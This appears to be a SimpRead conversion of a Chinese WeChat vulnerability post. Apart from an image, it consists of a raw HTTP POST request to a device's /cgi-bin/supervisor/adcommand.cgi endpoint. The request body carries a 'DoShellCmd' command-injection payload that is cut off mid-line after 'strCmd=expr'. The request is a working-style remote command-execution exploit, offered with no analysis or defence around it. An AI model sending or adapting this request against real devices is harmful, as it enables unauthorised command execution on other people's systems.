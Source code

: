 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-ZqdK1PhuJUfL0TWnVZxMw)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibbVvIYJaJjebTTa7ApIdgSCNicIibhXaTdyIKOUtJSGZ5j1BryVdIRH0wrMBVcnNgdZ2maCqM4awQ/640?wx_fmt=png)

```
POST /cgi-bin/supervisor/adcommand.cgi HTTP/1.1

User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0

Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Connection: close

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 23

DoShellCmd "strCmd=expr
```